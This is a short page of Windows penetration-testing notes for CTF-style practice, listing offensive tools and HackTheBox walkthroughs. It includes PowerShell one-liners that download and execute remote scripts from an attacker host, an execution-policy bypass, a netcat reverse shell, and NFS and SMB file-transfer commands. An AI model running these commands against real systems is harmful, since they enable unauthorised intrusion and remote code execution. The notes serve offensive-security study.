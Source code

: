 ```yaml
---
description: 'Sorted Linux notes, need to separate to different pages and reorganize'
---
```


# Windows Notes

living off the land binaries: [LOLBAS](https://lolbas-project.github.io/)

## Enumeration

Windows Privilege Escalation Enumeration Script: [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)

Little bit o' everything: [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/)

## Shares

### Mounting NFS Shares Remotely

{% embed url="https://resources.infosecinstitute.com/exploiting-nfs-share/" %}

```text
showmount -e <ip>
<list of mounts>
mkdir /tmp/<foldername?
mount -t nfs <ip>:/<mount-folder> /tmp/<foldername>
```

## Unsorted

Powershell full path: `C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe`

Powershell "wget" and execute remote code:

```text
powershell "Invoke-Expression(New-Object Net.Webclient).downloadString('http://<ip>:<port>/<filename>')"
```

Powershell Script Execution Bypass: \[can embed in php too!\]:

```text
echo IEX(New-Object Net.WebClient).DownloadString(http://<ip:port/filename.ps1>) | powershell -noprofile -
```

Powershell reverse shell and exploit scripts: nishang [Ippsec:HacktheBox - Optimum](https://www.youtube.com/watch?v=kWTnVBIpNsE)

Netcat reverse shell \(after uploading the binary!\): `nc64.exe -e cmd <ip port>`

tools: [https://specterops.io/resources/research-and-development](https://specterops.io/resources/research-and-development)

easy windows shell: unicorn.py [trustedsec/unicorn](https://github.com/trustedsec/unicorn) [HackTheBox - Arctic](https://www.youtube.com/watch?v=e9lVyFH7-4o)

system information: `sysinfo`

Get user id: `getuid`

Powershell privilege escalation:

* [PowerUp.ps1](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1) from PowerShellEmpire
* Sherlock.ps1

[fuzzbunch](https://github.com/peterpt/fuzzbunch): exploit tool similar to metasploit

check what updates are installed: `type WindowsUpdate.log`

net use share from linux \[like SimpleHTTPServer for Samba\]: `impacket-smbserver <sharename> '<dir_to_share>'`

